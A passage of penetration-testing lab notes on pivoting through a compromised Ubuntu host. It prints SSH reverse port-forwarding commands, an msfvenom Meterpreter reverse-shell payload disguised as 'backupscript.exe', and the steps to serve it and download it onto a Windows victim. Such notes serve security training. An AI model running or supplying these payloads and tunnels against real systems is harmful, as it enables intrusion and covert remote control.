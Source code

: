 **7.**  Make sure that you will get back the communications with a reverse proxy:

```
ssh -i id_rsa $username@$ipUbuntuCompromisedmachine -R $ip:8080:0.0.0.0:8000
```

**8.** Finally, use proxychains to route our Nmap traffic via our Meterpreter session.

```shell-session
proxychains nmap $NewDiscoveredIp -p3389 -sT -v -Pn
```


### Reverse Port Forwarding

For better understanding, we will have the following machines:

- Attacker machine: Kali, with IP 192.64.166.2
- 0.Victim's machine 1: Meta_3, a ubuntu machine with 2 networks interfaces: 192.64.166.3 and 192.182.147.2
- Victim's machine 2: Meta_2, a windows machine with nic 192.182.147.3

![lateral-movement.png](img/lateral-movement.png)

 
#### SSH Reverse Port Forwarding

**Goal**: From the kali we will make a RDP connection with Meta_2, the windows machine. 

For that we will use the Victim's machine 1 as a reverse port forwarding. 

```shell-session
# Syntax
ssh -R <InternalIPofPivotHost>:8080:0.0.0.0:8000 ubuntu@<ipAddressofTarget> -vN

# Translated to our case:
ssh -R 192.182.147.2:8080:0.0.0.0:8000 ubuntu@192.64.166.3 -vN
# We are using port 8080 on the Ubuntu server to forward all of our reverse packets to our attack hosts' 8000 port
```

##### Obtain a reverse shell

Now we need to create a payload that is going to be triggered in the Victim's machine 2 (the windows one).  First we create it in our kali:

```shell-session
msfvenom -p windows/x64/meterpreter/reverse_https lhost=192.182.147.2 -f exe -o backupscript.exe LPORT=8080
```

Now we move this malicious file to the victim's machine 2:

```
# First we copy it to the Ubuntu machine from our Kali
 scp backupscript.exe ubuntu@192.64.166.3:~/

# Then we connect to the Ubuntu machine
ssh ubuntu@192.64.166.3
# And make the file executable
chmod +x backupjob
# And there we start a http server to serve the copied file to the windows machine:
python3 -m http.server 8123

# We have access to the windows machine, so we download the malicious file via web browser or even this command:
Invoke-WebRequest -Uri "http://192.64.166.3:8123/backupscript.exe" -OutFile "C:\backupscript.exe"
```
